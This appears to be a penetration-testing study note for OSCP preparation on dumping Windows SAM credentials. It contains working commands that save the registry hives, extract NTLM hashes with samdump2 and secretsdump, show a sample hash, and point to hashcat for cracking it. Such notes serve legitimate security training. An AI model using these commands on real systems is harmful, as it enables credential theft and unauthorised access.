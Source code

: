 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/8-windows-privilege-escalation/10-dumping-sam/"}
---
```


The easiest way to steal the Security Account Manager (SAM) files is to get a copy from the registry:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
**Download** those files to your Kali machine and **extract the hashes** using:
```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```
Results in hashes like this:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f518eb35353d7a83d27e7fe457664e5:::
```
- The string starting with "8f518" is the NTLM hash which can be cracked using hashcat -m 1000

Alternatives:
```
.\secretsdump_windows.exe -sam C:\windows\system32\config\SAM -system C:\windows\system32\config\SYSTEM LOCAL

fgdump

pypykatz
```

Credit: https://book.hacktricks.xyz/windows-hardening/stealing-credentials